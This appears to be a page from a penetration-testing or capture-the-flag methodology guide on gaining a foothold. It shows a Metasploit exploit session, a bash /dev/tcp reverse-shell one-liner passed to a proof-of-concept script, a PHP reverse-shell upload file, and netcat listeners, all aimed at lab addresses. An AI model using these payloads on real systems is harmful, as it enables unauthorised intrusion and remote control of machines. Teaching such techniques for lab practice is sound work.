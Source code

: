 # Foothold

 - [Metasploit](Foothold.md#metasploit)
 - [Proof of Concept Scripts](Foothold.md#proof-of-concept-scripts)
 - [File Upload](Foothold.md#file-upload)
 
## Metasploit
Since getting the service versions was a part of the reconnaissance phase, it should be taken advantage of. 
Google the version of any services you find and see if there are any vulnerabilities. 
If you're lucky, there's a Metasploit module that you can use.  

There's a nice [SANS cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf) to help use Metasploit.  
Here's an example exploit to put the cheatsheet into perpsective though.
```console
msf5 > search example

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/example_file_upload     2015-09-15       excellent  Yes    Examlple File Upload Vulnerability

msf5 > use 0
msf5 exploit(multi/http/example_file_upload) > options

Module options (exploit/multi/http/example_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   VHOST                       no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Example 3.1.1

msf5 exploit(multi/http/example_file_upload) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf5 exploit(multi/http/example_file_upload) > set TARGETURI /example/
TARGETURI => /example/
msf5 exploit(multi/http/example_file_upload) > run
[*] Started reverse TCP handler on 10.10.15.1:4444
[*] Sending stage (37543 bytes) to 10.10.10.10
[*] Meterpreter session 1 opened (10.10.15.1:4444 -> 10.10.10.10:56052) at 2020-07-11 20:51:40 -0500
[+] Deleted payload.php
meterpreter > shell
Process 3816 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Proof of Concept Scripts
If you find a vulnerability on a service, but there isn't a Metasploit module available,  
you might be able to find a proof of concept (PoC) script on Github or Exploit-DB.  
More often than not, a PoC script will only give you the ability to send commands to run, which can be slow and cumbersome to use.  
The solution to this is setting up a reverse shell.

Utilizing a reverse shell is a three step process

 1. Setting up a netcat listener on your local machine
    ```
    Command Breakdown:
        nc: TCP/IP swiss army knife, used to read and write data across network connections
        -n: No DNS
        -v: Verbose
        -l: Listen for inbound connections
        -p 4444: Local port to open for connections
    ```

    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    ```
     
 2. Executing a reverse shell on the target machine by using a PoC script.  
    This step can use any number of programming languages and commands.  
    Luckily, there's a Github repository called [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)  
    that offers a cheat sheet for such a thing. (Among many other great materials)
    ```console
    user@parrot:~$ python3 50180 http://10.10.10.10/example -c "bash -i >& /dev/tcp/10.10.15.1/4444 0>&1"  
    Example 2.3 - Remote Command Execution
    
    [+] Uploading malicious .zip file: ✓
    [+] Executing bash -i >& /dev/tcp/10.10.15.1/4444 0>&1: ✓
    [+] Keep breaking ev3rYthiNg!!
    ```
    
 3. Return to the listener and start enumerating for a better user.
    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.10.10] from (UNKNOWN) [10.10.15.1] 33280
    www-data@example:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

## File Upload
If there isn't a common vulnerability to exploit, then you might want to look for a place to upload files. 
If you do find a place to upload files, then you should try uploading a PHP reverse shell.

payload.php:
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.15.1/4444 0>&1'");
?>
```

Once you've uploaded the reverse shell, then you can create a netcat listener and trigger the playload.

 1. Setting up a netcat listener on your local machine
    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    ```
     
 2. With your file uploaded, you should find out where it's stored on the website and `curl` it to trigger the reverse shell.
    ```console
    user@parrot:~$ curl http://10.10.10.10/upload/payload.php
    ```
    
 3. Return to the listener and start enumerating for a better user.
    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.10.10] from (UNKNOWN) [10.10.15.1] 45812
    www-data@example:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
